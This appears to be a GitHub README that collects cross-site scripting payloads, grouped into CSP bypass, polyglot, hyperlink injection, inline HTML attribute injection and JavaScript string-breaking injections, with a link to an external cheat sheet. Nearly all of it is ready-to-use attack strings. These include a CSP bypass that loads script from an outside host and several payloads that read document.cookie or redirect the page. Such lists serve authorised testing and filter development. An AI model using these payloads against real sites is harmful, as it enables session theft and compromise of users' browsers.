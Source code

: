 # XSS PAYLOAD [PAYLOAD.txt](https://github.com/zerbaliy3v/0xpayload/blob/main/All-XSS-Payload/payload.txt)


### CSP BYPASS:

    <script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>


### POLYGLOT:

    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


### HYPERLINK TAG INJECTION:

    javascript:alert(1)
    
    javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")
    
    javascript://%250Aalert(document.cookie)
    
    javascripT://https://google.com%0aalert(1);//https://google.com
    
    /x:1/:///%01javascript:alert(document.cookie)/


### INLINE HTML INJECTION WITHOUT TAG BREAK:
  
      " onclick=alert(1)//">click
      
      " autofocus onfocus=alert(1) "
      
      " onfocus=prompt(1) autofocus fragment="
      
      " onmouseover="confirm(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"


### JAVASCRIPT INJECTION:

    '?prompt`1`?'
    
    "])},alert(1));(function xss() {//
    
    ""});});});alert(1);$('a').each(function(i){$(this).click(function(event){x({y
    
    "}]}';alert(1);{{'
    
    11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'1
    
    \');confirm(1);//
    
    x");$=alert, $(1);//
    
    '|alert(1)|'
    
    '*prompt(1)*'
    
    "; ||confirm('XSS') || "
    
    "-alert(1)-"
    
    \'-alert(1)};{//
    
    "'-alert(1)-'"
    
    \u0027-confirm`1`-\u0027 
    
    '}};alert(1);{{'



### xss payload

url: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

:+100:
